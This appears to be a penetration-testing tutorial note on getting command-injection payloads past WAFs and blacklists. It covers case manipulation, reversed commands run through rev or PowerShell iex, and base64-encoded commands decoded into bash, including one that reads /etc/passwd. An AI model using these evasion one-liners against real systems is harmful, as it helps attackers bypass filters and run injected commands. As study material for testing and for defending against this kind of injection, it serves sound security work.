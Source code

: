 # Advanced Command Obfuscation

Sometimes we may deal with WAFs, and some evasion techniques may not work.

## Case Manipulation

A technique is to invert the character cases of a command like `WHOAMI` or alternating between cases `WhOaMi`. 

This can work because a command blacklist may not check for different case variations, as Linux systems are case-sensitive.

If we deal with Windows, we can change the casing and send it. PowerShell and CMD are case-insensitive, so they will be executed.

So for Linux we have to be a bit creative.

```sh
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

The `tr` replaces all upper-case characters with lower-case characters - resulting in all lower-case characters.

Another command that has the same purpose is:

```sh
$(a="WhOaMi";printf %s "${a,,}")
```

## Reversed Commands

Another technique is reversing commands and having a command that switches them back and executes in real time.

First reverse it:

```sh
echo 'whoami' | rev
imaohw
```

Then execute the command by reversing it back in a sub-shell:

```sh
$(rev<<<'imaohw')
```

On Windows:

Reverse
```ps
"whoami"[-1..-20] -join ''

imaohw
```

Execute
```ps
iex "$('imaohw'[-1..-20] -join '')"
```

## Encoded Commands

We can use encoding tools such as `base64` or `xxd`.

First encode it:

```sh
echo -n 'cat /etc/passwd | grep 33' | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now create a command that will decode it in a sub-shell and pass it to `bash`:

```sh
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

